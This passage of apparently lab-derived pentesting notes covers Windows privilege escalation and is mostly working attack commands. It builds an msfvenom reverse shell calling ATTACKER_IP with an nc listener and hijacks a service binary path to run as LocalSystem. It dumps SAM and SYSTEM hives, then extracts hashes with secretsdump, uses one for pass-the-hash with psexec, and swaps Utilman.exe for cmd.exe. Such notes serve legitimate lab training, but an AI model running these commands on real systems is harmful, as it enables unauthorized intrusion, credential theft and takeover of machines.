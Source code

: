 ```
        SERVICE_ALL_ACCESS
```

BUILTIN Users has SERVICE_ALL_ACCESS on thmservice.
```bash
# ATTACKER
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
nc -lvp 4447
```

```powershell
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
C:\> sc stop THMService
C:\> sc start THMService
```

## Windows Privileges

Repo with privileges and if it is possible to leverage : [Priv2Admin](https://github.com/gtworek/Priv2Admin)

```powershell
C:\> whoami /priv
```

### SeBackup / SeRestore
```
C:\> reg save hklm\system 
C:\Users\THMBackup\system.hive The operation completed successfully. C:\> reg save hklm\sam 
C:\Users\THMBackup\sam.hive The operation completed successfully.
```

Exfiltrate `same.hive` and `system.hive` on the attacker machine and run : 
```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash) Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

# Take Administrator hash
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@<VICTIM_IP>
```

### SeTakeOwnership

```powershell
C:\> takeown /f C:\Windows\System32\Utilman.exe
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
C:\Windows\System32\> copy cmd.exe utilman.exe
```
To trigger utilman, we will lock our screen from the start button and finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges.
